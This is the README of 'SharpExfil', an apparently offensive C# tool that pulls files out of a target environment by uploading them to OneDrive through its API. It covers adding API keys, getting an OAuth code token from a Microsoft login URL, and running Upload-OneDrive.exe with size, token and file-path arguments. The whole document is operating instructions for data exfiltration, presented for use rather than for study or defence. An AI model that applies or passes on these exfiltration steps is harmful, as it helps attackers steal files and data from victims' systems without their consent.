 # SharpExfil
C# executables to extract information from target environment using OneDrive API.

## OneDrive API instructions
you can find the steps to create OneDrive keys [here](./OneDrive_API_Key.md)

## Build Instructions

Add your OneDrive API keys to the 'API_Keys.cs' file in project.

Then build project from visual studio

## Running binary

1. Goto the url -  
	`https://login.microsoftonline.com/common/oauth2/v2.0/authorize?client_id=<Client_ID>&scope=<Scopes>&response_type=code&redirect_uri=<Redirect_URI>`  
	Replace Client_id with Application ID of the registered application.  
	Make sure redirect_uri string has the same value from registration.  

2. The new URL should contain the access_token  
	<img src="./img/token.png"/>

3. Run executable with generated code token
	`
	For Files smaller than 4mb:
		Upload-OneDrive.exe -size=small -code=<Code_Token> -file=<Path_To_Upload_File>
	For Files bigger than 4mb:
		Upload-OneDrive.exe -size=large -code=<Code_Token> -file=<Path_To_Upload_File>`
	<img src="./img/command.png"/>
	Pass all arguments in the same order